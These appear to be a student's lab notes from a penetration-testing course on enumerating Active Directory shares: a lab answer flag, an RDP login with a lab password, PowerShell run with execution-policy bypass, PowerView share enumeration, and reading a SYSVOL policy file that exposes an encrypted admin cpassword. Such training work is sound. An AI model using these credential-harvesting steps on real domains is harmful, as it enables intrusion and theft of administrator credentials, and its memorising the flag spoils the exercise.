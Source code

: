 Topics: Enumerating Domain Shares
# Questions
Start VM Group 1 and log in to CLIENT75 as stephanie. Repeat the enumeration steps outlined in this section and view the information in the accessible shares. What is the hostname for the server sharing the SYSVOL folder in the corp.com domain?
# Answer
OS{35de01963b7345788a2d78be38db3e6e}

xfreerdp /u:stephanie /d:corp.com /v:192.168.173.75 
Password: LegmanTeamBenzoin!!

# Open powershell
powershell -ep bypass
cd C:\Tools
Import-Module .\PowerView.ps1

PS C:\Tools> Find-DomainShare
...
SYSVOL            0 Logon server share     DC1.corp.com

...

# We'll use PowerView's Find-DomainShare function to find the shares in the domain. We could also add the -CheckShareAccess flag to display shares only available to us
PS C:\Tools> Find-DomainShare
...
SYSVOL            0 Logon server share     DC1.corp.com
docshare          0 Documentation purposes FILES04.corp.com
...

# In this instance, we'll first focus on SYSVOL,1 as it may include files and folders that reside on the domain controller itself. This particular share is typically used for various domain policies and scripts. By default, the SYSVOL folder is mapped to %SystemRoot%\SYSVOL\Sysvol\domain-name on the domain controller and every domain user has access to it.

PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\
d-----         9/21/2022   1:11 AM                Policies
d-----          9/2/2022   4:08 PM                scripts
PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\Policies\
d-----         9/21/2022   1:13 AM                oldpolicy

PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
...
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
...
